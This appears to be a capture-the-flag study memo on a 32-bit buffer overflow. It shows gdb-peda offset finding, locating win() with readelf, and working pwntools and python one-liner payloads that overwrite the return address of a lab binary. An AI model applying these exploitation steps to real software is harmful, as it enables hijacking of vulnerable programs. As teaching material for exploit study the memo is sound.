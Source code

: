 # Lesson
- BOF  
    - input with `python`  
    - `pattern_create` of `gbd-peda`  
    - find an address of a specific function with `pwntools`  

# Memo
1. get a byte size for BOF  
    - ghidra, gdb  
        ```console
        gdb-peda$ break *0x080492c3 # ret on vuln
        gdb-peda$ start
        gdb-peda$ pattern_create 50
        AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
        gdb-peda$ continue
        AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
        ...
        [------------------------------------stack-------------------------------------]
        0000| 0xffffcedc ("AFAAbA")
        0004| 0xffffcee0 --> 0xff004162
        0008| 0xffffcee4 --> 0xf7fbe66c --> 0xf7ffdba0 --> 0xf7fbe780 --> 0xf7ffda40 --> 0x0
        0012| 0xffffcee8 --> 0xf7fbeb10 --> 0xf7d92cc6 ("GLIBC_PRIVATE")
        ...
        gdb-peda$ pattern_offset AFAA
        AFAA found at offset: 44
        gdb-peda$ 
        ```
    or  
    - manual trial-and-error  
2. get a target address  
    - ghidra  
    - readelf  
        ```console
        $ readelf -s ./vuln | grep FUNC
        1: 00000000     0 FUNC    GLOBAL DEFAULT  UND printf@GLIBC_2.0 (2)
        2: 00000000     0 FUNC    GLOBAL DEFAULT  UND gets@GLIBC_2.0 (2)
        3: 00000000     0 FUNC    GLOBAL DEFAULT  UND fgets@GLIBC_2.0 (2)
        ...
        49: 08049281    67 FUNC    GLOBAL DEFAULT   13 vuln
        ...
        63: 080491f6   139 FUNC    GLOBAL DEFAULT   13 win
        ...
        72: 080492c4   122 FUNC    GLOBAL DEFAULT   13 main
        ...
        ```
        get "0x080491f6" of win()  

3. exploit on local machine  
    - pwntools  
        - ghidra  
            ```python
            payload += p32(0x80491f6)
            ```
         or  
        - library of pwntools  
            ```
            elf = ELF('./vuln')
            win_addr = elf.symbols['win']
            payload += p32(win_addr)
            ```
    - manual  
        - good case  
            ```console
            $ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | ./vuln
            ```
            test  
            ```console
            $ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | xxd
            00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
            00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
            00000020: 4141 4141 4141 4141 4141 4141 f691 0408  AAAAAAAAAAAA....
            ```
        - bad case  
            ```console
            $ python3 -c "print('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | ./vuln
            ```
            test  
            ```console
            $ python3 -c "print('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | xxd
            00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
            00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
            00000020: 4141 4141 4141 4141 4141 4141 c3b6 c291  AAAAAAAAAAAA....
            00000030: 0408 0a
            ```
            Byte stream is bad.

4. exploit on remote machine
    - pwntools  
        solver.py
    - socket
